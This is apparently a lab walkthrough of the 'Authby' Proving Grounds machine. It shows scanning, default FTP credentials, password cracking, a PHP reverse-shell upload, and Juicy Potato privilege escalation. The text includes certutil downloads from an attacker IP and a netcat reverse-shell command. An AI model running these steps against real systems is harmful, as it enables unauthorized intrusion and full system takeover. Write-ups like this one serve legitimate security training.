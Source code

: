 # **Authby | Proving Grounds Practice**


***

## **Difficulty == Hard**


![image](https://i.pinimg.com/originals/e6/ef/60/e6ef60252e1a13ba001279c54f868ce0.gif)


***



Running an nmap scan we have:



```
# Nmap 7.94SVN scan initiated Sun Jul  7 15:06:55 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt -Pn 192.168.223.46
Nmap scan report for 192.168.223.46
Host is up (0.15s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
21/tcp   open  ftp                zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
--SNIP--
242/tcp  open  http               Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-title: 401 Authorization Required
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
3145/tcp open  zftp-admin         zFTPServer admin
3389/tcp open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2024-07-07T14:09:50+00:00
|_ssl-date: 2024-07-07T14:09:55+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=LIVDA
| Issuer: commonName=LIVDA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-04-10T18:40:02
| Not valid after:  2024-10-10T18:40:02
| MD5:   f90f:0605:514d:dfe9:715d:b588:528e:16de
|_SHA-1: db3a:b973:d0f5:6dcc:f1e2:f121:1a95:e956:8c8d:a632
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul  7 15:09:57 2024 -- 1 IP address (1 host up) scanned in 181.67 seconds
```



Anonymous login is enabled on the default FTP server but we can't download files neither can we put files

![](https://i.imgur.com/MWxJ8xe.png)


On port 242/HTTP we have an encrypted websites, We can't bruteforce cos we don't have a username



![](https://i.imgur.com/3WWYmZ3.png)



There is another FTP port but anonymous login isn't enabled


![](https://i.imgur.com/lQ6tZ7A.png)


Navigated back to the default FTP server and under the accounts directory we can see some lists of accounts



![](https://i.imgur.com/1XhyeKi.png)



Decided to try out the account `admin` and password `admin` which worked



![](https://i.imgur.com/uPNWiCH.png)



Downloaded all the files which was possible xD


![](https://i.imgur.com/y0hsn3l.png)


Under the `.htpasswd` file we have an encrypted password and username, looks like what we need for the web app login endpoint



![](https://i.imgur.com/65LUkZ0.png)


I also confirmed if the FTP server is connected to the web application which is true cos trying to read `.htpasswd` which was available at the FTP server is probably readable on the web application if we did not have a `403` status code



![](https://i.imgur.com/ZNoNiWr.png)



Decided to crack the password we got with `JtR` and we got a valid set of credential



```
john .htpasswd --wordlist=/usr/share/wordlists/rockyou.txt
```



![](https://i.imgur.com/jSgILCH.png)



Logged in via the web application endpoint and it was successful as seen below


![](https://i.imgur.com/xSdYWpk.png)


I also make sure to confirm if we had this same text in the `index.php` file downloaded from the FTP server


![](https://i.imgur.com/m7I53a7.png)


## **FootHold**


Saved **Ivan Sinceck** PHP shell to a file and use the `put` command to upload to the FTP server then executed it from the URL making sure i have my listener turned on



```
nc -lvnp 4444
```




![](https://i.imgur.com/xPsxY7f.png)


## **Privilege Escalation**


I found out that we have the `SeImpersonatePrivilege` and we can use this to escalate to administrator, the below command retrieves and displays specific system information, including the host name, OS name, OS version, system type, and hotfixes installed, from the output of the `systeminfo` command.



```bash
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
```




![](https://i.imgur.com/7RjHWnh.png)


We can see that this is a `x86` system so we need 32 bit binaries, Transferred Juicy Potato which can be gotten from [here](https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2), the netcat 32 bit version can also be googled online.



```
certutil -urlcache -f http://192.168.45.213/Juicy.Potato.x86.exe Juicy.Potato.x86.exe

certutil -urlcache -f http://192.168.45.213/nc.exe nc.exe
```



Then we need the CLSID to actually make this work, You can get the CLSID from [https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/)




```
.\Juicy.Potato.x86.exe -t * -p c:\windows\system32\cmd.exe -a "/c C:\wamp\bin\apache\Apache2.2.21\nc.exe 192.168.45.213 1337 -e cmd.exe" -l 1337 -c "{3c6859ce-230b-48a4-be6c-932c0c202048}"
```




![](https://i.imgur.com/EguxHg4.png)




Bankaaaaiiiii ⚔️


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>



